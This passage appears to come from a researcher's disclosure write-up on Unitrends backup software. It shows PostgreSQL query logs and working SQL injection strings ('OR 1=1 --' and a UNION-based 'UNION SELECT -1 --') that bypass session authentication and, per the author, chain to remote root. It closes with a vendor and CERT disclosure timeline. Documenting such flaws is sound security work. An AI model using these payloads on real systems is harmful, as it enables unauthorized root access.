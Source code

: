 ```while true; do ps -eaF;  done | grep -i [A]AAA ```
(1 row)

{% endhighlight %}

Knowing that the session uuid is stored in a postgres database the first thing is a SQL injection attack.  Again we will continue to leverage the SSH access for debugging purposes.  Some quick googling and find the stackexchange [thread](https://stackoverflow.com/questions/722221/how-to-log-postgresql-queries) for enabling query logging for postgres. We just need to locate postgresql.conf and set log_statement  to 'all' and then tail the appropriate file in pg_log.

{% highlight shell  %}
[root@VMware-UB ~]# find / -name pg_log
/backups/UnitrendsDataBase/pg_log
[root@VMware-UB ~]# cd /backups/UnitrendsDataBase/pg_log
[root@VMware-UB pg_log]# tail -f postgresql-2018-04-26_000000.log | grep sessions
2018-04-26 05:51:33.560 EDT [19231]: LOG:  statement: SELECT expiration FROM sessions where uuid = '5dd62e9a-efe9-4f33-8227-a97d01fe80fa'
2018-04-26 05:51:33.564 EDT [7740]: LOG:  statement: SELECT expiration FROM sessions where uuid = '5dd62e9a-efe9-4f33-8227-a97d01fe80fa'
2018-04-26 05:51:33.723 EDT [1417]: LOG:  statement: SELECT expiration FROM sessions where uuid = '5dd62e9a-efe9-4f33-8227-a97d01fe80fa'
2018-04-26 05:51:34.622 EDT [3869]: LOG:  statement: SELECT expiration FROM sessions where uuid = ' ' or 1=1 -- '
2018-04-26 05:51:35.336 EDT [15523]: LOG:  statement: SELECT expiration FROM sessions where uuid = ' ' or 1=1 -- '
2018-04-26 05:51:35.535 EDT [31063]: LOG:  statement: SELECT expiration FROM sessions where uuid = '5dd62e9a-efe9-4f33-8227-a97d01fe80fa'
2018-04-26 05:51:35.868 EDT [14351]: LOG:  statement: SELECT expiration FROM sessions where uuid = ' ' or 1=1 -- '
2018-04-26 05:51:36.416 EDT [9498]: LOG:  statement: SELECT expiration FROM sessions where uuid = '5dd62e9a-efe9-4f33-8227-a97d01fe80fa'
2018-04-26 05:51:36.421 EDT [3453]: LOG:  statement: SELECT expiration FROM sessions where uuid = '5dd62e9a-efe9-4f33-8227-a97d01fe80fa'


{% endhighlight %}

This turns out to be quite noisy, though of course we can pipe to grep only the queries that touch the sessions tables.  It quickly is apparent that this works as expected, the applications is just grabbing the expiration column for the matching uuid from the user session.  From there it must be comparing the expiration against the current time. 

Let’s try some basic SQLi strings. We of course will have to Base64 encode the AuthToken. Sure enough the first and most textbook example works: ```‘ OR 1=1 -- ``` This is great, we have an authorization bypass and a root level CMDi exploit.  Eventually we come to realize that this isn’t as reliable we hoped and the issue is the auth bypass.  Yes our basic string worked initially but we are dependent of two things: a valid session in the sessions table, the first session returned not being expired.  

Knowing how simple the query is and how it works we opted to just do a UNION query which should be 100% reliable.  The condition we really need to satisfy is the check the application does on the returned expiration timestamp. We came up with this string: ```' UNION SELECT -1 -- ```


There we go, from 0 to remote root while using only standard desktop utilities.  Feel like this is a valuable learning exercise to understand how the sausage is made.   


Timeline:  
01/10/2017 - Vulnerabilities discovered  
01/18/2017 - Attempted to make contact with vendor via phone and email  
01/20/2017 - Contacted CERT for help getting a security contact with vendor  
02/07/2017 - Make contact with vendors security engineer and submit PoC  
```